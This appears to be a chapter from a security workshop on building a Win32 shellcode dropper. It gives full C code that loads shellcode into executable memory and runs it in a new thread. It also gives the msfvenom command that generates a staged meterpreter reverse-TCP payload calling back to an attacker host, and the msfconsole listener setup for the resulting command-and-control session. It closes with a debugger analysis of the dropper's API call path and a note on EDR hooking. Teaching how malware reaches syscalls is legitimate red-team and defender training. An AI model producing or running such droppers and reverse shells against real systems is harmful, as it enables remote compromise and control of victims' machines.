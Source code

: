 ## Exercise 2: Win32 Dropper
In **Exercise 2** we will create our first shellcode dropper based on **high level APIs** or **Win32 APIs**. This dropper will more or less be the reference for further development into a direct syscall and indirect syscall dropper. Later in this text we call the Dropper Win32-Dropper. If you look at the figure below, you will see that we do not use direct or indirect syscalls at all. Instead we use the normal legitimate way like ``malware.exe`` -> ``Win32 APIs (kernel32.dll)`` -> ``Native APIs (ntdll.dll)`` -> ``syscall``.  
<details>
     <p align="center">
<img width="1000" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/14d3e025-71e5-4bba-bcdc-532c37f71a30">
</p>
</details>
     
## Exercise 2 tasks:
### Build Win32 Dropper
1. Download the Win32-Dropper poc from the Code section of this chapter.
2. In this case the code is already implemented in the poc. Your task is to create x64 meterpreter shellcode, copy it into the poc and compile it.
3. Create and run a staged x64 meterpreter listener using msfconsole.
4. Run your compiled .exe and check that a stable command and control channel opens. 

### Analyse Win32 Dropper
5. Use the Visual Studio **dumpbin** tool to analyse the Win32-Dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
6. Use **x64dbg** to debug or analyse the Win32-Dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The technical functionality of the Win32-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the Win32-Dropper into a Low-Level-Dropper using direct system calls. In the Win32-Dropper we use the following Win32 APIs 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
    
```C
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
 

Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
<details>
    
```C
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
<details>
    
```C
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
 </details>   


The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>

```C
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
    
```C
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

    
And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>  
    
```C
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

    
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```C
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the Win32-Dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
**kali>**       
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>
    
The shellcode can then be copied into the Win32-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>
    

## MSF-Listener
Before we test the functionality of our Win32-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Dropper Analysis: dumpbin
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>
    
**cmd>**  
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports Win32-API.exe
```
</details>
    
<details>
    <summary>Results</summary>   
In the case of the Win32-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the Win32-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>
</details>

    
## Dropper Analysis: x64dbg
The first step is to run your Win32-Dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the Win32-Dropper directly in x64dbg you need to run the assembly first.
     
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1d7959d0-9a35-451d-be18-826f4a832737">
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls or similar are used in the Win32-Dropper. What results do you expect?
     
<details>
    <summary>Results</summary>
     
Checking the imported symbols in our Win32-Dropper, we should see that the Win32 APIs ``VirtualAlloc``, ``WriteProcessMemory``, ``CreateThread`` and ``WaitForSingleObject`` are imported from ``kernel32.dll``. So the result is the same as with dumpbin and seems to be valid.  
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83">   
</p>  
     
We use the "Follow imported address" function in the Symbols tab by right-clicking on one of the four Win32 APIs used, e.g. ``VirtualAlloc``, and we can see that we jump to the location of ``kernel32.dll``.
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/55b64891-6e31-4f1b-b566-30489fb41c7b">
</p>
     
In the next step we use the function "Follow in Dissassembler" to follow the memory address that jumps to the memory of the ``kernelbase.dll``.  
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/fa540f58-b748-45c7-9ee0-4f55821709f7">
</p> 
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/992e3162-84cc-480b-ade9-e17d6541ba48">
</p>
     
Then we use the Follow in dissassembler function again and follow the address that calls the native function ``Nt*`` or ``ZwAllocateVirtualMemory`` from a memory location in ``ntdll.dll``.      
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/667441cb-d9ae-43d3-969e-35be8dbab5da">
</p>     
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/456e8c76-32bc-4115-8154-61630a8e87c5">
</p>
     
As expected, we go the normal way via ``malware.exe`` -> ``kernel32.dll`` -> ``kernelbase.dll`` -> ``ntdll.dll`` -> ``syscall``.     
</details>     

We also want to check from which module or memory location the ``syscall stub`` of the native functions used is implemented, and also check from which module or memory location the ``syscall`` statement and ``return`` statement are executed.
     
<details>
    <summary>Results</summary>
     
The following illustration shows, that the ``syscall`` instruction and the ``return`` instruction are executed from a memory region in ``ntdll.dll`` as expected. 
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/0701e142-1dd8-4a18-91f8-bf32d6b66315">          
</p>            
</details>     


   
## Summary: Win32-Dropper
- No direct system calls at all
- Syscall execution via normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Win32-Dropper imports Windows APIs from kernel32.dll...
- ...then accesses or imports the native functions from ntdll.dll...
- ...and finally executes the code of the corresponding native function, including the syscall instruction.  
- If an EDR uses user mode hooking in kernel32.dll or ntdll.dll, the contents of malware.exe are redirected to the EDR's hooking.dll.

